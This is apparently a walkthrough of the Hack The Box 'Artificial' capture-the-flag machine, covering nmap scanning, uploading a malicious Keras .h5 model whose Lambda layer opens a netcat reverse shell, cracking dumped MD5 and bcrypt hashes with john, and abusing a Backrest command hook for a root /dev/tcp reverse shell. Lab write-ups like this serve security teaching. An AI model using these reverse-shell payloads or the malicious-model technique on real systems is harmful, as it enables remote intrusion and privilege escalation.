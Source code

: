 Let's scan the machine:
```bash
sudo nmap -v -sC -sV 10.10.11.74 -oN nmap/initial
```

![image](images/20250622184209.png)

Port `80` is open. Let's go to the website:

![image](images/20250622184414.png)

Create an account and get to the `dashboard`:

![image](images/20250622184650.png)

First, get the [.h5 file](https://github.com/openPMD/openPMD-example-datasets/blob/draft/example-femm-thetaMode.h5) and upload it to the server. We receive the following request:
```Reauest
POST /upload_model HTTP/1.1
Host: artificial.htb
Content-Type: multipart/form-data; boundary=----geckoformboundary53018d29f39236987995fe51717513ef
Content-Length: 182326
Origin: http://artificial.htb
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8

------geckoformboundary53018d29f39236987995fe51717513ef
Content-Disposition: form-data; name="model_file"; filename="example-femm-thetaMode.h5"
Content-Type: application/mipc

<!DOCTYPE html>
<html lang="en"
data-color-mode="auto" data-light-theme="light" data-dark-theme="dark"
data-a11y-animated-images="system" data-a11y-link-underlines="true">
```
After that, it redirects you back to the same page and this file appears there, next to which there is a button `View Predictions`. When clicked, the following request is sent:
<div style="page-break-after: always;"></div>

```Reauest
GET /run_model/95b919d1-27d8-4cd0-b456-f3ca21e70d31 HTTP/1.1
Host: artificial.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8
```
Download `Dockerfile` and deploy him:
```bash
sudo docker build -t artificial-htb .
```
Let's run the container
```bash
sudo docker run -it --rm -v $(pwd):/mnt artificial-htb
```
Let's read the part of the [article](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model#getting-the-rce) that talks about doing `RCE` in `TensorFlow`.
**The key element here is the Lambda layer**, the other layers are just for show. However, in a real scenario, this malicious layer would probably be hidden among dozens of legitimate layers of the working model, so as not to arouse suspicion.
Let's write some code that will generate the `.h5` file we need with a reverse shell:
```Python
import tensorflow as tf

def exploit(x):
import os
os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 4444 >/tmp/f")
return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
The above script will create the `exploit.h5` file, which will execute the serialized exploit function and will create the file `/tmp/pwned`. **The exploit is triggered already when saving the model** (so you shouldn't write `rm -rf /` there, otherwise you can crash the whole system).
<div style="page-break-after: always;"></div>

> [!info] Note
> Instead of simple `sh | nc`, the chain `rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT >/tmp/f` is used, because the named FIFO pipe (`/tmp/f`) closes stdin and stdout-stderr in a circle. This creates a full-fledged two-way reverse-shell, which works even where the unsafe `-e` option has been removed from `nc`.

We execute this script inside the container. After that, the file `exploit.h5` is created, which we must send to the server:

![image](images/20250625132734.png)

Click `View Predictions`:

![image](images/20250625132810.png)


![image](images/20250625132821.png)

The API key was found in the `app.py` code:
```API-key
Sup3rS3cr3tKey4rtIfici4L
```

![image](images/20250625133044.png)

Let's see what users are in the system:

![image](images/20250625145238.png)

There is a user `gael`. Also in the `instance` directory there is `users.db`. Let's see what's inside:
```bash
sqlite3 users.db
```
```SQLite3
Enter ".help" for usage hints.
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170 f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|notthei0204|notthei020 4@gmail.com|f0f1f60430a59e920764a7b1be6041fc
7|test123@gmail.com|test123@gmail.com|9a93efa79aa9f5d35e14bc55a3e16dc4
8|n|n@n.com|7b8b965ad4bca0e41ab51de7b31363a1
9|te st|test@email.com|098f6bcd4621d373cade4e832627b4f6
10|dd|dd@gmail.com|827ccb0eea8a706c4c34a16891f84e7b
11|ddd|ddd@gmail.com|77963b7a931377ad4ab5ad6a9cd718aa
```
<div style="page-break-after: always;"></div>

Let's break the hash:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
```

![image](images/20250625144958.png)

Password:
```Password
mattp005numbertwo
```
Let's try to connect to user `gael`:

![image](images/20250625145159.png)

```flag
8b0ba3b136c04b28745971beb2348e76
```
Let's fix the terminal:
```bash
export PS1='\u@\h:\w\$ '
```

![image](images/20250625145728.png)

Let's see what services are running locally:
```bash
netstat -tulpn
```

![image](images/20250625150856.png)

There is an interesting port `9898`. Let's forward it to our host and go to the site:
```bash
ssh 9898:localhost:9898 gael@10.10.11.74
```

![image](images/20250625151028.png)

**Backrest** is a web-based backup solution built on top of **restic**. **Backrest** provides a web interface that wraps the `restic` CLI and simplifies creating repositories, viewing snapshots, and restoring files. In addition, **Backrest** can run in the background, automatically create snapshots on a specified schedule, and perform operations to maintain the "health" of repositories.
Using the capabilities of `restic`, **Backrest** gets a mature, fast, reliable, and secure backup system at its disposal, complementing it with an intuitive interface.
Let's see if there are any backups in the system:

![image](images/20250625150819.png)

Copy `backrest_backup.tar.gz` to the home directory and unpack it:
```bash
cp /var/backups/backrest_backup.tar.gz .
```
```bash
tar -xf backrest_backup.tar.gz
```
The following was found in the `.config/backrest/config.json` config:

![image](images/20250625152555.png)

```base64
JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP
```
`passwordBcrypt` is a bcrypt hash, but before writing it to JSON, it was **additionally Base64 encoded**. Decode it

![image](images/20250625152704.png)

```bcrypt
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
Now let's crack it:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

![image](images/20250625152928.png)

The final password for `Backrest`:
```Password
!@#$%^
```
Log in

![image](images/20250625153004.png)


![image](images/20250625153109.png)

The `backrest` service (the web-UI for restic) is usually launched as a **systemd-unit from root**, in order to have access to all the directories that are given to it for backup.
When we create a plan (Plan) or a repository (Repo), **Backrest** subsequently launches `restic` itself **and all the "hooks" specified in the plan on behalf of the same user under which the service runs — that is, root**.
In the web-interface, these hooks are configured in literally a couple of clicks: it is either `Success Hook` or `Error Hook` — a command string that Backrest passes directly to `/bin/sh -c '<string>'`.
In fact, this is a built-in RCE functionality. You just need to give it your command and make the plan execute.
Create a repository.

![image](images/20250625154103.png)


>[!info] Note
>To create a local repository, specify `local:/path` in `Repository URI`

Create a plan. In `Hook`, select `Command` and enter the reverse shell there. Select that this command is called upon any error. The error will be due to the fact that we specify a non-existent directory `/not/a/directory`
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1'
```

![image](images/20250625153930.png)

We go to the plan and run the backup, having started listening to the port in advance:
```bash
sudo ncat -lvnp 4444
```

![image](images/20250625154457.png)


![image](images/20250625154700.png)


![image](images/20250625154645.png)

We got it flag
```flag
dc14188a0ff745ed57bcedd380bf2d63
```
